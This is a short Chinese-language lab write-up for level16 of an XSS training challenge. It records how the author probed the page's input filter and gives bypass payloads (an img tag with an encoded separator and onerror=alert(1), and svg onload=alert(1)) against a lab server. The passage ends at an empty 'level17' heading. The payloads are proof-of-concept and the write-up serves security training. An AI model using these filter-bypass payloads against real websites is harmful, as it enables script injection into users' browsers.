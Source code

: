 ## level16

首先，传参，发现是在center标签里放数据。

​![image](assets/image-20240913213646-rpne9yf.png)​

```bash
http://47.113.187.190:50974/level16.php?keyword=</center>On SCript hREf DaTa OnFocus OnmOuseOver OnMouseDoWn P <sCriPt>
```

使用该payload测试一下，有哪些过滤。

​![image](assets/image-20240913214547-up0kghv.png)​

明显发现/、空格、被编码了，script、直接被过滤，有大小写转换。

1、<>没有过滤

2、不能使用scrtpt、空格要编码

```bash
payload：?keyword\=\<img%0dsrc\=1%0donerror\=alert(1)\>

payload：http://47.113.187.190:50974/level16.php?keyword=<svg onload=alert(1)>
```

​![image](assets/image-20240913203324-cw701j5.png)​

## level17
